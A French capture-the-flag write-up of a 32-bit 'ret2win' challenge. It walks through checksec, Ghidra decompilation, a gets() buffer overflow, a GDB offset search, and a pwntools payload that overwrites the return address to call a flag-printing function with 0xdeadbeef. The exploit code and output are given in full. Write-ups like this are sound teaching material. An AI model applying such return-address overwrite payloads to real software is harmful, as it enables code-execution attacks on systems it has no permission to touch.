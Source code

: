 # Pwn0x01

```md
return to win!!!

nc 35.180.44.229 1235
```

On comprends à la description qu'il va s'agir d'un [ret2win](https://book.hacktricks.xyz/binary-exploitation/stack-overflow/ret2win). [L'exécutable](./task_new) est fournit vérifions si des sécurités sont activées :

```console
$ checksec --file=task_new 
[*] '/home/geoffrey/Documents/Campus/Star-Hack/Pwn0x01/task_new'
    Arch:       i386-32-little
    RELRO:      Partial RELRO
    Stack:      No canary found
    NX:         NX enabled
    PIE:        No PIE (0x8048000)
    Stripped:   No
```

Visiblement pas de PIE ni de canary, et s'il s'agit bien d'un ret2win NX nous importe peu. Essayons de le lancer :

```console
$ ./task_new 
hey Morty give an adress for my portal Gun
AAAA
```

Le programme nous demande une saisie et s'arrête, essayons de le reverse pour mieux le comprendre.

## Analyse statique

Avec Ghidra on retrouve ces trois fonctions :

```C
undefined4 main(void)
{
  ignore_me_init_buffering(&stack0x00000004);
  setvbuf(_stdout,(char *)0x0,2,0);
  puts("hey Morty give an adress for my portal Gun");
  portalGun();
  return 0;
}
```

```C
void portalGun(void)
{
  char local_4c [68];
  
  gets(local_4c);
  return;
}
```

```C
void callMe(int param_1)
{
  char local_50 [64];
  FILE *local_10;
  
  local_10 = fopen("flag.txt","r");
  if (local_10 == (FILE *)0x0) {
    puts("No flag contact an admin.");
                    /* WARNING: Subroutine does not return */
    exit(0);
  }
  if (param_1 == L'\xdeadbeef') {
    fgets(local_50,64,local_10);
    printf(local_50);
  }
  return;
}
```

La fonction `main` ne nous intéresse pas trop elle ne fait qu'appeler `portalGun`, qui elle par contre est vulnérable à un buffer overflow (car pas de limite sur la taille de l'input de l'utilisateur) :

```C
  char local_4c [68];
  
  gets(local_4c);
```

Et enfin `callMe` va gentillement aller chercher le flag pour nous :

```C
  local_10 = fopen("flag.txt","r");
```

Puis nous l'affiche à condition de l'appeler avec `0xdeadbeef` en argument :

```C
  if (param_1 == L'\xdeadbeef') {
    fgets(local_50,64,local_10);
    printf(local_50);
  }
```

Il va donc falloir utiliser le buffer overflow de `portalGun` pour appeler `callMe` avec le bon argument.

## Analyse dynamique

Cherchons l'offset nécessaire pour rediriger l'exécution du programme sous GDB :

```gdb
gef➤  disas portalGun 
Dump of assembler code for function portalGun:
   0x080486a5 <+0>:	push   ebp
   0x080486a6 <+1>:	mov    ebp,esp
   0x080486a8 <+3>:	push   ebx
   0x080486a9 <+4>:	sub    esp,0x44
   0x080486ac <+7>:	call   0x8048729 <__x86.get_pc_thunk.ax>
   0x080486b1 <+12>:	add    eax,0x194f
   0x080486b6 <+17>:	sub    esp,0xc
   0x080486b9 <+20>:	lea    edx,[ebp-0x48]
   0x080486bc <+23>:	push   edx
   0x080486bd <+24>:	mov    ebx,eax
   0x080486bf <+26>:	call   0x8048430 <gets@plt>
   0x080486c4 <+31>:	add    esp,0x10
   0x080486c7 <+34>:	nop
   0x080486c8 <+35>:	mov    ebx,DWORD PTR [ebp-0x4]
   0x080486cb <+38>:	leave
   0x080486cc <+39>:	ret
End of assembler dump.

gef➤  br *portalGun+39
Breakpoint 1 at 0x80486cc

gef➤  r <<< $(python3 -c 'print("A"*76+"B"*4)')
```

```gdb
──────────────────────────────────────────────────────────────── code:x86:32 ────
[!] Cannot disassemble from $PC
[!] Cannot access memory at address 0x42424242
──────────────────────────────────────────────────────────────────── threads ────
[#0] Id 1, Name: "task_new", stopped 0x42424242 in ?? (), reason: SIGSEGV
```

Le programme crash car il n'arrive pas à accèder à l'adresse que nous avons injecté : il faudra un offset de 76 bytes.

## Exploit

PIE est désactivé nous pouvons donc utiliser cette adresse de `portalGun` :

```gdb
gef➤  info func callMe
All functions matching regular expression "callMe":

Non-debugging symbols:
0x080485c6  callMe
```

Notre payload sera un padding de 76 bytes comme dans l'analyse dynamique, suivie de l'adresse de `callMe` vers laquelle on veut rediriger le programme, puis les arguments nécessaires (car les arguments sont transmis depuis la stack en 32 bits) :

```python
offset = 76
callMe_addr = 0x080485c6

payload = b"".join([
    b"A"*offset,
    p32(callMe_addr),
    b"B"*4,
    p32(0xdeadbeef),
])
```

En testant localement le payload, on comprends aussi que c'est le deuxième argument passé à `callMe` qui doit être `0xdeadbeef`, on rajoute donc un padding de 4 bytes.

Enfin, ce [script](./exploit.py) nous permet d'envoyer notre payload avec `pwntools` :

```console
$ python3 exploit.py 
[+] Opening connection to 35.180.44.229 on port 1235: Done

b'StarHack{YOU_WON!!}\n'

[*] Closed connection to 35.180.44.229 port 1235
```